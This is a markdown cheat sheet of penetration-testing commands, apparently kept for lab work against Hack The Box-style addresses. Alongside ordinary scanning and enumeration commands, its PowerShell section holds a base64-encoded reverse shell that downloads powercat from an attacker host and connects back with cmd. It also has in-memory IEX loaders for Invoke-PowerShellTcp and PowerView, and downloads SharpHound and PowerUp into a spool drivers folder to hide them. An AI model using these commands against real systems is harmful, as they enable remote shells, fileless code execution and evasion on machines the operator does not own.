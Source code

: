 # Commands

## vi

```sh
kali@kali:/etc/vim$ cat /etc/vim/vimrc.local 
set paste
set cursorline
set number
```

## Enumeration 

```sh
$ sudo masscan -p1-65535 10.10.10.77 --rate=1000 -e tun0 > ports
$ ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
$ sudo nmap -Pn -sV -sC -p$ports 10.10.10.77 -oA nmap
```

## Web

```sh
$ curl -v -X OPTIONS http://192.168.1.105/test

$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o gob_common_80.txt
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o go_medium_80.txt

$ nikto -host 192.168.1.159:8080 | tee nikto_192.168.1.159_8080.txt
```

## Find

```sh
$ find / -perm -4000 2> /dev/null
```

## Powershell

### Encoded commands

```sh
$command="ls"
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -encoded $Encoded
```
Reverse Shell

```sh
$command={IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.14.3:9000/powercat.ps1'); powercat -c 10.13.14.3 -p 1234 -e cmd}
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))

$command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.13.14.3:9000/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Port Scanning

```sh
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("localhost", $_)) "Port $_ is open!")) 2>$null
```

Downloading

```sh
$url="http://10.10.14.13:9000/SharpHound.exe"
$output="C:\Windows\System32\spool\drivers\color\SharpHound.exe"
(New-object system.net.webclient).downloadfile($url,$output)

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:9000/PowerUp.ps1", "C:\Windows\System32\spool\drivers\color\PowerUp.ps1")
```

Reflective Downloading

```sh
$ IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:9000/PowerView.ps1')
```

Size of Folder

```sh
$ "{0} MB" -f ((Get-ChildItem C:\users\ -Recurse -force | Measure-Object -Property Length -Sum -ErrorAction Stop).Sum / 1MB)
```

Compress

```sh
$ Compress-Archive -LiteralPath <PathToFolder> -DestinationPath <PathToDestination>
```
Find Files

```sh
$ gci -force -recurse -file -ea silentlycontinue  

$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -force -ErrorAction SilentlyContinue

$ FindDate=Get-Date -Year 2016 -Month 06 -Day 24
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate -and $_.LastWriteTime -le $Finddate.adddays(1) }
```

## Useful links

https://github.com/swisskyrepo/PayloadsAllTheThings
https://book.hacktricks.xyz/
https://gtfobins.github.io/
https://github.com/LOLBAS-Project/LOLBAS/blob/master/README.md
https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf

